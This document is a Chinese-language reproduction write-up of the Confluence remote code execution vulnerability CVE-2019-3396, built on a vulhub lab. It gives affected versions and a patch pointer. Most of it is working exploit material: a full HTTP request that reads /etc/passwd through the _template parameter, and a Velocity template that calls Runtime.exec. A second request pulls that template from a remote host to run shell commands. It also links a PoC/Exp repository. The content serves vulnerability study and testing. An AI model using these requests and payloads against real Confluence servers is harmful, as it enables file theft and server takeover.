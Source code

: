 # Confluence 远程命令执行漏洞(CVE-2019-3396)

##### 1 漏洞概述

###### 漏洞编号

CVE-2019-3396

###### 漏洞名称

Confluence 远程命令执行漏洞(CVE-2019-3396)

###### 漏洞评级

高危

###### 漏洞描述

Confluence是一个专业的企业知识管理与协同软件，常用于构建企业wiki。它强大的编辑和站点管理特征能够帮助团队成员之间共享信息、文档协作、集体讨论，信息推送。利用该漏洞可以读取服务器上任意文件，进而可以包含恶意文件来执行代码。可能造成敏感信息泄露，服务器被控制等严重后果。

###### 漏洞利用条件和方式

无

###### 漏洞影响范围

6.6.12之前所有6.6.x版本

6.12.3之前所有6.12.x版本

6.13.13之前所有6.13.x版本

6.14.2之前所有6.14.x版本

###### 修复建议

 官方已修复该漏洞，请到官网下载无漏洞版本：<https://www.atlassian.com/> 



##### 2 环境准备

使用vulhub上的漏洞环境：

<https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396>



##### 3 漏洞验证

读取/etc/passwd：

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.183.128:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://192.168.183.128:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"file:///etc/passwd"}}}
```

![img](<https://raw.githubusercontent.com/qlxmy/vul/master/Confluence_CVE-2019-3396/imgs/1.png>)



##### 4 漏洞利用

命令执行的模板如下：

```
#set($exp="exp")
#set($a=$exp.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($command))
#set($input=$exp.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
#set($sc = $exp.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($exp.getClass().forName("java.io.InputStream")))
#set($scan=$constructor.newInstance($input).useDelimiter("\\A"))
#if($scan.hasNext())
	$scan.next()
#end
```

将模板上传到github上，访问链接如下：

<https://raw.githubusercontent.com/qlxmy/vul/master/Confluence_CVE-2019-3396/cmd.rm>

执行ls命令完整的发包如下：

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.183.128:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://192.168.183.128:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 259

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"https://raw.githubusercontent.com/qlxmy/vul/master/Confluence_CVE-2019-3396/cmd.rm","command":"ls"}}}
```

![img](<https://raw.githubusercontent.com/qlxmy/vul/master/Confluence_CVE-2019-3396/imgs/2.png>)



##### 5 Poc/Exp

基于pocsuite模板的Poc/Exp链接：

<https://github.com/qlxmy/vul>

Poc验证：

![img](<https://raw.githubusercontent.com/qlxmy/vul/master/Confluence_CVE-2019-3396/imgs/3.png>)

Exp验证：

![img](<https://raw.githubusercontent.com/qlxmy/vul/master/Confluence_CVE-2019-3396/imgs/4.png>)



**参考链接：**

<https://www.freebuf.com/column/200320.html>

<https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396>

[https://mntn0x.github.io/2019/04/18/CVE-2019-3396-Confluence-RCE%E5%A4%8D%E7%8E%B0/](https://mntn0x.github.io/2019/04/18/CVE-2019-3396-Confluence-RCE复现/)
